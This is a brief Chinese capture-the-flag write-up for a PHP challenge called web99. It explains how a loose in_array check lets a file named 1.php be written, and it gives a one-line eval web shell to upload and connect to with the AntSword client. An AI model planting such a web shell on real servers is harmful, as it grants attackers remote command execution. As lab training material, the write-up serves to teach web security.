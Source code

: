 # web99
![](vx_images/261322712075680.png)
array_push——往数组尾部插入元素
rand(1,$i)——随机生成1-877之间的数
//所以array_push($allow, rand(1,$i))就是往数组中插入1-877之间的数字
in_array——搜索数组中是否存在指定的值:
in_array(search,array,type)
search为指定搜索的值
array为指定检索的数组
type为TRUE则 函数还会检查 search的类型是否和 array中的相同

get传如文件名,post传入文件内容
?n=1.php
content=<?php eval($_POST['cmd']);?>
蚁剑连接
![](vx_images/240625226307129.png)